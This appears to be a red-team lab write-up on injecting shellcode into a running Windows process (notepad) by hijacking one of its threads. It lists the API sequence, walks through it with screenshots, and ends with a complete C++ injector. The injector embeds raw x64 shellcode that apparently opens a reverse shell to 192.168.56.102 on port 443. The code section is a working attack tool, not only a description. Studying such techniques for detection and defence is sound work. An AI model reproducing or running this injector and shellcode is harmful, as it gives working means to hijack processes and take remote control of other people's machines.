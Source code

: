 # Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process \(notepad in our case\) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` \(allocated in step 2\), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process \(notepad\). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack \(`threadHijacked`\) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's \(retrieved in step 6\) instruction pointer \(`RIP` register\) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's \(upadated in step 7\) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's \(notepad\) main thread ID as seen in the below image:

![](../../.gitbook/assets/image%20%28619%29.png)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](../../.gitbook/assets/image%20%28594%29.png)

In step 6, that thread \(TID `14100`\) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](../../.gitbook/assets/image%20%28617%29.png)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](../../.gitbook/assets/image%20%28564%29.png)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](../../.gitbook/assets/image%20%28612%29.png)

![](../../.gitbook/assets/image%20%28545%29.png)

In step 10, once the hijacked thread \(`threadHijacked`\) is resumed, the shellcode is executed and a reverse shell is executed:

![](../../.gitbook/assets/image%20%28553%29.png)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
    unsigned char shellcode[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
        "\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    HANDLE targetProcessHandle;
    PVOID remoteBuffer;
    HANDLE threadHijacked = NULL;
    HANDLE snapshot;
    THREADENTRY32 threadEntry;
    CONTEXT context;

    DWORD targetPID = 15048;
    context.ContextFlags = CONTEXT_FULL;
    threadEntry.dwSize = sizeof(THREADENTRY32);

    targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
    remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);

    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    Thread32First(snapshot, &threadEntry);

    while (Thread32Next(snapshot, &threadEntry))
    {
        if (threadEntry.th32OwnerProcessID == targetPID)
        {
            threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
            break;
        }
    }

    SuspendThread(threadHijacked);

    GetThreadContext(threadHijacked, &context);
    context.Rip = (DWORD_PTR)remoteBuffer;
    SetThreadContext(threadHijacked, &context);

    ResumeThread(threadHijacked);
}
```

